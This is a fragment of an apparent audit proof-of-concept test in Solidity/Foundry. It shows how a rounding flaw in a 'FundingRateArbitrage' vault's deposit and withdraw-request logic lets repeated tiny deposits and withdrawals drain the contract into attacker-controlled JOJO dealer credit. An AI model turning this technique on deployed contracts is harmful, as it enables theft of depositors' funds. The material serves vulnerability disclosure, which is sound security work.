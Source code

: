 ```
        // but we won't for simplicity in this PoC)
        vm.stopPrank();

        // Share price is a bit over $1
        console.log("Share price");
        console.log(fundingRateArbitrage.getIndex());

        // Someone else makes a deposit
        initBob();
        fundingRateArbitrage.deposit(1000e6);
        vm.stopPrank();

        // Let's assume Carol and Dave are EOAs that belong to Alice
        initCarol();
        // Carol will get 1 share back after depositing $1.01
        fundingRateArbitrage.deposit(1_010_000);
        // Here is where the rounding issue comes in
        // Will just withdraw a full cent because I'm lazy
        fundingRateArbitrage.requestWithdraw(10_000);
        vm.stopPrank();

        // Just want to show it is possible to repeat the rounding issue
        // over and over again to drain the contract
        initDave();
        // Dave will get 1 share back after depositing $1.01
        fundingRateArbitrage.deposit(1_010_000);
        fundingRateArbitrage.requestWithdraw(10_000);
        vm.stopPrank();

        vm.startPrank(Owner);
        uint256[] memory requestIds = new uint256[](2);
        requestIds[0] = 0;
        requestIds[1] = 1;
        fundingRateArbitrage.permitWithdrawRequests(requestIds);
        vm.stopPrank();

        // Carol is back to her initial balance, but now has a bunch of extra JUSD deposited for her into jojodealer, which is her profit!
        console.log("Carol usdc balance");
        console.log(USDC.balanceOf(carol));
        (, uint secondaryCredit, , , ) = jojoDealer.getCreditOf(carol);
        console.log("Carol JOJO dealer credit");
        console.log(secondaryCredit);

        // Dave is also up money
        console.log("Dave usdc balance");
        console.log(USDC.balanceOf(dave));
        (, uint daveSecondaryCredit, , , ) = jojoDealer.getCreditOf(dave);
        console.log("Dave JOJO dealer credit");
        console.log(daveSecondaryCredit);
    }
```
